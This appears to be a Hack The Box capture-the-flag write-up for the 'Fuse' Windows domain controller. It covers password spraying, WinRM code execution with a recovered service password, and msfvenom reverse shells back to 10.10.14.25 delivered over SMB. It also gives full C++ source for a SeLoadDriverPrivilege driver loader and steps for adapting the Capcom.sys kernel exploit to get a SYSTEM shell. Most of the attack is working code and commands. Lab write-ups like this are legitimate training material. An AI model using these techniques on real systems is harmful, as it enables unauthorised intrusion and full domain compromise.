










# [Fuse](https://app.hackthebox.eu/machines/256)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.193 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.193 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.193
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.193
```

The quick TCP scan returns the following:



The UDP quick scan returns the following:


The TCP/UDP port 88 is usually only open on a domain controller... Check the domain `fabricorp.local` from `nmap` using DNS:

```bash
nslookup
set type=ANY
server 10.10.10.193
_ldap._tcp.dc._msdcs.fabricorp.local
Fuse.fabricorp.local
```


Yep, `Fuse.fabricorp.local` is the DC for `fabricorp.local` with the IP 10.10.10.193. Start with SMB:

```bash
smbmap -g -d fabricorp.local -H 10.10.10.193
smbclient -N -L //10.10.10.193
smbclient -U '%' -L //10.10.10.193
smbclient -U 'user%password' -L //10.10.10.193
```

No luck... Next enumerate the web server:

```bash
nikto -h http://10.10.10.193/ -C all --maxtime=120s --output=nikto.txt
```



Then browse to the site manually:

```bash
firefox http://10.10.10.193/
```

This returns an interesting re-direct to the following URL:

```
http://fuse.fabricorp.local/papercut/logs/html/index.htm
```

Add this to `/etc/hosts` and try again:

```bash
sudo sh -c 'echo "10.10.10.193 fabricorp.local" >> /etc/hosts'
sudo sh -c 'echo "10.10.10.193 fuse.fabricorp.local" >> /etc/hosts'
```

This now opens up the following page:


Looking at the 3 log links shows the following:







This means there are likley the following users in the domain:

```
bhult
tlavel
pmerton
sthompson
administrator
```

Also, it seems like there _may_ be a new employee with the username `bnielson`? This may be a good target for a bruteforce attack assuming the user has a common password on the domain before logging in and resetting it. Looking for version information for the website does not return anything useful. Try looking for an exploit?

```
searchsploit papercut
```

No luck. There does not seem ot be any open source exploit through a Google search either... Try to run a bruteforce in the background for the user `bnielson`:

```bash
sudo apt install seclists --upgrade
crackmapexec smb 10.10.10.193 -d 'fabricorp.local' -u bnielson -p /usr/share/seclists/Passwords/cirt-default-passwords.txt
```

But this runs for a while and does not return any wins... Maybe something more targeted? Looking at the filenames from the print jobs shows `Fabricorp01`. Try that as a password spray over all the users:

```bash
for i in $(seq 1 99); do printf "Fabricorp%02d\n" $i >> pass.txt; done
echo 'bhult'         >> users.txt
echo 'tlavel'        >> users.txt
echo 'pmerton'       >> users.txt
echo 'bnielson'      >> users.txt
echo 'sthompson'     >> users.txt
echo 'administrator' >> users.txt
crackmapexec smb 10.10.10.193 -d 'fabricorp.local' -u users.txt -p pass.txt
```

Running this generates a few hits for `Fabricorp01`! Here is a less noisy capture of that:


It seems like the following users have a default password that needs to be changed:

```
fabricorp.local\bnielson:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
fabricorp.local\bhult:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
```

Some searching for this error leads to the following:

- https://twitter.com/vysecurity/status/1313511859224547334/photo/1
- https://serverfault.com/questions/215983/change-windows-ad-password-from-linux

It says that is should be possible to change the password for these users from Linux:

```bash
sudo sh -c 'echo "10.10.10.193 fabricorp.local" >> /etc/hosts' # run if not dnoe already
smbpasswd -r fabricorp.local -U bhult
```

This works! However, trying to authenticate using this password throws the error again? Trying this a few times seems to show that something is resetting the password back to `Fabricorp01` every couple of minutes... To make things even more annoying, the DC remembers password history so each password given for the user account reset must be a unique one... This means the best kind of connection is one that maintains a kerberos token after authentication that is re-used for authentication. Use `rpcclient` to enumerate the domain:

```bash
smbpasswd -r fabricorp.local -U bhult # change password from Fabricorp01 to Fabricorp02
rpcclient -U 'bhult%Fabricorp02' 10.10.10.193 # !!! move quickly to login !!!
```

From here, walk through the following commands to enumerate the domain:

- https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html


It seems there are more users in this domain. Maybe this will help for another bruteforce login? However, trying the current wordlist with `FabricorpXX` does not work against these new users... After walking through the commands, it seems like there is a printer with interesting info:



It seems like there is a password `$fab@s3Rv1ce$1`. Try this password and see if anything hits from the usernames scraped from the domain:

```bash
crackmapexec smb 10.10.10.193 -d 'fabricorp.local' -u users.txt -p '$fab@s3Rv1ce$1'
```

This returns a hit:



Try and use this for code execution using WinRM since TCP port 5985 is seen as open from the full `nmap` scan:

```bash
crackmapexec winrm 10.10.10.193 -d 'fabricorp.local' -u users.txt -p '$fab@s3Rv1ce$1' -x 'whoami'
```


It seems like the password works for `svc-scan` but only `svc-print` allows for code execution. Use it to get a dedicated shell on the target:

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
sudo impacket-smbserver BUBBA .
nc -nvlp 6969
crackmapexec winrm 10.10.10.193 -d 'fabricorp.local' -u 'svc-print' -p '$fab@s3Rv1ce$1' -x 'cmd.exe /c \\10.10.14.25\BUBBA\bubba.exe'
```

This returns a shell with `user.txt`:



Looking at tokens for this account shows a unique one:



`SeLoadDriverPrivilege` is not common:

- https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#seloaddriverprivilege
- https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/

It seems like this token allows for the current process to lead a driver into the kernel. Follow the steps to use this for a SYSTEM shell on the target.

**NOTE:** Tried using https://github.com/TarlogicSecurity/EoPLoadDriver but ran into issues when it ran on the target... Looking at the C++ code, it is rather simple:

- Create a new registry key under `HKEY_CURRENT_USER` with at least 2 sub-values:
  - **ImagePath:** `REG_EXPAND_SZ` type value which specifies the driver path. In this context, the path should be a directory with modification permissions by the non-privileged user.
  - **Type**: Value of type `REG_WORD` in which the type of the service is indicated. For our purpose, the value should be defined as `SERVICE_KERNEL_DRIVER` (0x00000001).
- Enable the `SeLoadDriverPrivilege` if not already and then call [NtLoadDriver](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-zwloaddriver) with the registry path to the created registry path in HKCU. Since the `ZwLoadDriver()` Win32 function does not expose the full Win32 API, a reference to `ntdll` is needed. Thankfully that work has been done here: https://github.com/TarlogicSecurity/EoPLoadDriver. 

Combine this logic to make a standalone `eoploaddriver.cpp` that can be compiled outside of Visual Studio. Trying to compile `eoploaddriver.cpp` from the GitHub repo using the following MinGW command:

```bash
git clone https://github.com/TarlogicSecurity/EoPLoadDriver.git
# target is x86 since "c:\Program Files" and "c:\Program Files (x86)" exists
# running "systeminfo" gave and Access Denied error
x86_64-w64-mingw32-g++ EoPLoadDriver/eoploaddriver.cpp -o eoploaddriver.exe -s --static
```

This resulted in some compilation errors... Here is the first:

```
EoPLoadDriver/eoploaddriver.cpp:6:10: fatal error: stdafx.h: No such file or directory
```

- https://stackoverflow.com/questions/38470207/codeblocks-fatal-error-stdafx-h-no-such-file-or-directory

This error can be fixed by removing the call to `#include "stdafx.h"`. Next error(s):

```
EoPLoadDriver/eoploaddriver.cpp:7:10: fatal error: Windows.h: No such file or directory
EoPLoadDriver/eoploaddriver.cpp:8:10: fatal error: Winternl.h: No such file or directory
```

- https://github.com/mxe/mxe/issues/1437

These errors can be fixed by moving the capital `W` in the `#include` preprocessor command to a lowercase `w`. 

**However**, even after all these fixes, using this on the target did not work since the code fails to get the SID of the current user correctly? Instead of fixing the code, just shorten the code to only the important parts:

- This code is easily modifiable:
  - Run `whoami /all` on the target to get the SID of the user for the `USER_SID` variable. 
  - Set `SYS_PATH` to the location of `Capcom.sys` on the target

```cpp
#include <windows.h>
#include <winternl.h>
#include <tchar.h>
#include <stdio.h>
#include <sddl.h>
#include <shellapi.h>
#include <strsafe.h>

// NOTE: make sure this is the location where Capcom.sys is
const wchar_t* SYS_PATH = L"C:\\Users\\svc-print\\Capcom.sys";
// NOTE: run "whoami /all" to get this
const wchar_t* USER_SID = L"S-1-5-21-2633719317-1471316042-3957863514-1104";
const wchar_t* REG_PATH = L"System\\CurrentControlSet\\BUBBA";

ULONG LoadDriver(const wchar_t* userSid, const wchar_t* RegistryPath) {
  NTSTATUS status;
  UNICODE_STRING DriverServiceName;

  typedef NTSTATUS(_stdcall *NT_LOAD_DRIVER)(IN PUNICODE_STRING DriverServiceName);
  typedef void (WINAPI* RTL_INIT_UNICODE_STRING)(PUNICODE_STRING, PCWSTR);

  NT_LOAD_DRIVER NtLoadDriver = (NT_LOAD_DRIVER)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtLoadDriver");
  RTL_INIT_UNICODE_STRING RtlInitUnicodeString = (RTL_INIT_UNICODE_STRING)GetProcAddress(GetModuleHandleA("ntdll.dll"), "RtlInitUnicodeString");

  wchar_t registryPath[MAX_PATH];
  snwprintf(registryPath, MAX_PATH, L"\\Registry\\User\\%ls\\%ls", userSid, RegistryPath);
  wprintf(L"[+] Loading Driver: %ls\n", registryPath);
  RtlInitUnicodeString(&DriverServiceName, registryPath);
  status = NtLoadDriver(&DriverServiceName);
  printf("NTSTATUS: %08x, WinError: %d\n", status, GetLastError());
  return 0;
}

//https://msdn.microsoft.com/en-us/library/windows/desktop/aa446619(v=vs.85).aspx
BOOL SetPrivilege(HANDLE hToken, LPCTSTR lpszPrivilege, BOOL bEnablePrivilege) {
  LUID luid;
  TOKEN_PRIVILEGES tp;

  if (!LookupPrivilegeValue(NULL, lpszPrivilege, &luid)) {
    wprintf(L"[-] LookupPrivilegeValue error: %u\n", GetLastError());
    return FALSE;
  }

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  if (bEnablePrivilege) {
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
  } else {
    tp.Privileges[0].Attributes = 0;
  }

  // enable or disable
  if (!AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) {
    wprintf(L"[-] AdjustTokenPrivileges error: %u\n", GetLastError());
    return FALSE;
  }

  if (GetLastError() == ERROR_NOT_ALL_ASSIGNED) {
    wprintf(L"[-] The token does not have the specified privilege. \n");
    return FALSE;
  }

  return TRUE;
}

ULONG CreateRegistryKey(const wchar_t* RegistryPath, const wchar_t* DriverPath) {
  ULONG dwErrorCode;
  HKEY hKey;
  DWORD dwDisposition;
  DWORD dwServiceType = 1;
  DWORD dwServiceErrorControl = 1;
  DWORD dwServiceStart = 3;
  SIZE_T ServiceImagePathSize;
  wchar_t registryPath[MAX_PATH], serviceImagePath[MAX_PATH];

  snwprintf(registryPath, MAX_PATH, L"%ls", RegistryPath);
  snwprintf(serviceImagePath, MAX_PATH, L"\\??\\%ls", DriverPath);
  wprintf(L"[*] Target Driver Path: %ls\n", serviceImagePath);
  wprintf(L"[*] Target Registry Path in HKCU: %ls\n", registryPath);

  dwErrorCode = RegCreateKeyExW(HKEY_CURRENT_USER, registryPath, 0, NULL, 0, KEY_ALL_ACCESS, NULL, &hKey, &dwDisposition);
  if (dwDisposition != REG_CREATED_NEW_KEY) {
    RegCloseKey(hKey);
    wprintf(L"RegCreateKeyEx failed: 0x%x\n", dwErrorCode);
    return dwErrorCode;
  }

  ServiceImagePathSize = (lstrlenW(serviceImagePath) + 1) * sizeof(WCHAR);
  dwErrorCode = RegSetValueExW(hKey, L"ImagePath", 0, REG_EXPAND_SZ, (const BYTE *)serviceImagePath, ServiceImagePathSize);
  if (dwErrorCode) {
    RegCloseKey(hKey);
    return dwErrorCode;
  }

  dwErrorCode = RegSetValueExW(hKey, L"Type", 0, REG_DWORD, (const BYTE *)&dwServiceType, sizeof(DWORD));
  if (dwErrorCode) {
    RegCloseKey(hKey);
    return dwErrorCode;
  }

  dwErrorCode = RegSetValueExW(hKey, L"ErrorControl", 0, REG_DWORD, (const BYTE *)&dwServiceErrorControl, sizeof(DWORD));
  if (dwErrorCode) {
    RegCloseKey(hKey);
    return dwErrorCode;
  }

  dwErrorCode = RegSetValueExW(hKey, L"Start", 0, REG_DWORD, (const BYTE *)&dwServiceStart, sizeof(DWORD));
  RegCloseKey(hKey);
  return 0;
}

int main() {
  HANDLE hToken;
  ULONG dwErrorCode;

  // Make Registry Keys
  dwErrorCode = CreateRegistryKey(REG_PATH, SYS_PATH);
  if (dwErrorCode != 0) {
    wprintf(L"[-] Error while creating registry keys: error value %d\n", dwErrorCode);
    goto cleanup;
  }

  // Get Current Process Token
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken)) {
    wprintf(L"[-] OpenProcessToken Failed\n");
    goto cleanup;
  }

  // Enable Privileges
  wprintf(L"[*] Enabling SeLoadDriverPrivilege\n");
  if (SetPrivilege(hToken, SE_LOAD_DRIVER_NAME, true)) {
    wprintf(L"[+] SeLoadDriverPrivilege Enabled\n");
  } else {
    wprintf(L"[-] SeLoadDriverPrivilege Failed\n");
    goto cleanup;
  }
  LoadDriver(USER_SID, REG_PATH);

cleanup:
  CloseHandle(hToken);
  hToken = NULL;
  return 0;
}
```

Compile the above code saved in `loaddriver.cpp` as follows and transfer it to the target with `Capcom.sys`:

```bash
# run on kali
x86_64-w64-mingw32-g++ loaddriver.cpp -o loaddriver.exe -s --static
wget https://github.com/FuzzySecurity/Capcom-Rootkit/raw/master/Driver/Capcom.sys 
sudo impacket-smbserver BUBBA .
# run on target
robocopy.exe \\10.10.14.25\BUBBA C:\Users\svc-print Capcom.sys /copy:DT /w:1 /r:1 /v 
robocopy.exe \\10.10.14.25\BUBBA C:\Users\svc-print loaddriver.exe /copy:DT /w:1 /r:1 /v 
```

Now to create the payload to be executed... Starting from the code in this repo:

- https://github.com/tandasat/ExploitCapcom

This C++ code will not compile with MinGW standalone:

- Copy over the `#include` definitions from [stdafx.h](https://github.com/tandasat/ExploitCapcom/blob/master/ExploitCapcom/ExploitCapcom/stdafx.h) to [ExploitCapcom.cpp](https://github.com/tandasat/ExploitCapcom/blob/master/ExploitCapcom/ExploitCapcom/ExploitCapcom.cpp) and make sure all capital `W` in `#include` are lowercase
- Remove references to `#include "stdafx.h"` from [ExploitCapcom.cpp](https://github.com/tandasat/ExploitCapcom/blob/master/ExploitCapcom/ExploitCapcom/ExploitCapcom.cpp)
- Fix the following code with explicit casting (if you can't find it, try to compile and the error will show where to edit):

```c++
InBufferContents->Shellcode = (SHELLCODE){
    { 0x90, },                                  //      nop     ; for debugging
    { 0xfb, },                                  //      sti
    { 0xff, 0x25, 0x00, 0x00, 0x00, 0x00, },    //      jmp qword ptr [nextline]
                                                // nextline:
    (void *)&KernelPayload,                     //      dq KernelPayload
};
```

- Change the `CommandLine` in the `LaunchShell` function of [ExploitCapcom.cpp](https://github.com/tandasat/ExploitCapcom/blob/master/ExploitCapcom/ExploitCapcom/ExploitCapcom.cpp) to the following:

```c++
TCHAR CommandLine[] = TEXT("C:\\Users\\svc-print\\bubba.root.exe");
```

Now compile this exploit with the modifications saved in `exploit.cpp` and generate a new payload. Then transfer them to the target as well:

```bash
# run on kali
# '-lntdll' is needed due to the '#pragma comment(lib, "ntdll.lib")'
x86_64-w64-mingw32-g++ exploit.cpp -o exploit.exe -s -lntdll --static
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=7777 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.root.exe
nc -nvlp 7777
sudo impacket-smbserver BUBBA .
# run on target
robocopy.exe \\10.10.14.25\BUBBA C:\Users\svc-print exploit.exe /copy:DT /w:1 /r:1 /v 
robocopy.exe \\10.10.14.25\BUBBA C:\Users\svc-print bubba.root.exe /copy:DT /w:1 /r:1 /v 
```

With all the files staged on the target, run the following to trigger the vulnerability:

```bash
C:\Users\svc-print\loaddriver.exe
C:\Users\svc-print\exploit.exe
```

This should display the following:



Then return the following shell as SYSTEM:

- Forgot to snag `user.txt` in this image but feeling lazy...


